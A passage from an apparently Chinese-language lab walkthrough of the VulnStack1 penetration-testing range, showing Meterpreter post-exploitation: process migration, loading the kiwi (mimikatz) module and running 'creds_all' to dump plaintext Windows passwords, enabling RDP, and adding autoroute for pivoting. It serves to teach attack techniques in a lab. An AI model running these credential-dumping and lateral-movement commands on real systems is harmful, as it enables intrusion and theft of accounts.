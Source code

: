 ```shell
1156  488   spoolsv.exe        x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\spoolsv.exe
************************************************************************************************************
************************************************************************************************************
```

这里 ```migrate 964``` 迁移到 64 位的 cmd.exe 上

再执行 ```load mimikatz``` 命令
```shell
load kiwi
```
注意事项：
1. 32位系统直接加载模块，然后使用命令 ```mimikatz_command -f sekurlsa::searchPasswords```
2. 64位系统先迁移 meterpreter 到 64 位的进程中，再加载模块

![img](https://testingcf.jsdelivr.net/gh/black-and-while/save_image/penetration_test/VulnStack1/VulnStack1_15.png)

发现报错，显示 ```mimikatz``` 已经被 ```kiwi``` 取代

（2）换成加载 kiwi 模块
注意事项：64 位系统时候，也需要先迁移到 64 位的进程中，再加载模块

迁移后，执行 ```load kiwi``` 命令加载，然后 ```creds_all```
```shell
load kiwi
creds_all
```

![img](https://testingcf.jsdelivr.net/gh/black-and-while/save_image/penetration_test/VulnStack1/VulnStack1_16.png)

可以看到已经成功得到明文密码

### 开启 3389 端口

3389 端口是 Windows Server 系统远程桌面的服务端口

```shell
run post/windows/manage/enable_rdp
```

再用 nmap 扫描一下，可以看到确实是开放了 3389 端口
![img](https://testingcf.jsdelivr.net/gh/black-and-while/save_image/penetration_test/VulnStack1/VulnStack1_17.png)

## 横向移动

### 搭建隧道

隧道是一种绕过端口屏蔽的通信方式。
这里使用 msf + proxychains 进行搭建

用msf直接搭建sock隧道
进入session，自动创建路由
```shell
run post/multi/manage/autoroute
```
![img](https://testingcf.jsdelivr.net/gh/black-and-while/save_image/penetration_test/VulnStack1/VulnStack1_18.png)
